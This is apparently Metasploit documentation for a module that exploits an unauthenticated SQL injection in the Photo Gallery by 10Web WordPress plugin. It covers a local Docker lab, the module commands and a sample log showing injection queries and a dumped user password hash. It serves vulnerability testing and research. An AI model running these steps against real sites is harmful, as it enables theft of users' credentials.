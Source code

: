 ## Vulnerable Application

The vulnerability affects the **Photo Gallery by 10Web** plugin for WordPress, versions **up to 1.6.0**,
allowing **unauthenticated SQL injection** via the `bwg_tag_id_bwg_thumbnails_0[]` parameter
on `admin-ajax.php` (action=`bwg_frontend_data`). WordPress itself must be installed.

### Pre-requisites

* **Docker** and **Docker Compose** installed.


## Setup Instructions

1. **Create a `docker-compose.yml`** with:

```yaml
version: '3.1'

   services:
     wordpress:
       image: wordpress:latest
       restart: always
       ports:
         - 5555:80
       environment:
         WORDPRESS_DB_HOST: db
         WORDPRESS_DB_USER: chocapikk
         WORDPRESS_DB_PASSWORD: dummy_password
         WORDPRESS_DB_NAME: exploit_market
       mem_limit: 512m
       volumes:
         - wordpress:/var/www/html

     db:
       image: mysql:5.7
       restart: always
       environment:
         MYSQL_DATABASE: exploit_market
         MYSQL_USER: chocapikk
         MYSQL_PASSWORD: dummy_password
         MYSQL_RANDOM_ROOT_PASSWORD: '1'
       volumes:
         - db:/var/lib/mysql

   volumes:
     wordpress:
     db:
```

2. **Start the environment**

```bash
docker-compose up -d
```

3. **Install Photo Gallery plugin**

```bash
wget https://downloads.wordpress.org/plugin/photo-gallery.1.5.82.zip
unzip photo-gallery.1.5.82.zip
docker cp photo-gallery wordpress:/var/www/html/wp-content/plugins/
```

4. **Activate Photo Gallery**

* Browse to `http://localhost:5555/wp-admin`, log in as admin (create one if needed), and activate **Photo Gallery by 10Web**.
* Create a gallery.


## Verification Steps

1. **Launch Metasploit**

```bash
msfconsole
```

2. **Load the Photo Gallery SQLi scanner**

```bash
use auxiliary/gather/wp_photo_gallery_sqli
set RHOSTS 127.0.0.1
set RPORT 5555
set TARGETURI /
```

3. **Run the module**

```bash
run
```

4. **Observe output**

The module should:

* Retrieve the database name
* Enumerate tables and infer the `wp_users` table
* Extract `user_login:user_pass` for the number of rows set by `COUNT`

## Options

### COUNT

Number of user rows to retrieve (default: 5)

## Scenarios

```bash
msf6 auxiliary(gather/wp_photo_gallery_sqli) > run http://lab:5555
[*] Running module against 127.0.0.1
[*] Running automatic check ("set AutoCheck false" to disable)
[*] {SQLi} Executing (select 'nI5hKye')
[*] {SQLi} Encoded to (select 0x6e4935684b7965)
[+] The target is vulnerable.
[*] {SQLi} Executing (SELECT 16 FROM information_schema.tables WHERE table_name = 'wp_users')
[*] {SQLi} Encoded to (SELECT 16 FROM information_schema.tables WHERE table_name = 0x77705f7573657273)
[*] {WPSQLi} Retrieved default table prefix: 'wp_'
[*] {SQLi} Executing (select group_concat(sLt) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) sLt from wp_users limit 1) KVgXfyYs)
[*] {SQLi} Encoded to (select group_concat(sLt) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0x7b,0)),ifnull(user_pass,repeat(0x14,0))) as binary) sLt from wp_users limit 1) KVgXfyYs)
[!] No active DB -- Credential data will not be saved!
[+] {WPSQLi} Credential for user 'chocapikk' created successfully.
[*] {WPSQLi} Dumped user data:
wp_users
========

    user_login  user_pass
    ----------  ---------
    chocapikk   $wp$2y$10$Lw9VAfqDMbi9md2Y0945TO4l0NTKJxxXTd3CDTr8gIkgDbBQ2mUgS

[+] Loot saved to: /home/chocapikk/.msf4/loot/20250710131832_default_127.0.0.1_wordpress.users_427582.txt
[*] {WPSQLi} Reporting host...
[*] {WPSQLi} Reporting service...
[*] {WPSQLi} Reporting vulnerability...
[+] {WPSQLi} Reporting completed successfully.
[*] Auxiliary module execution completed
```
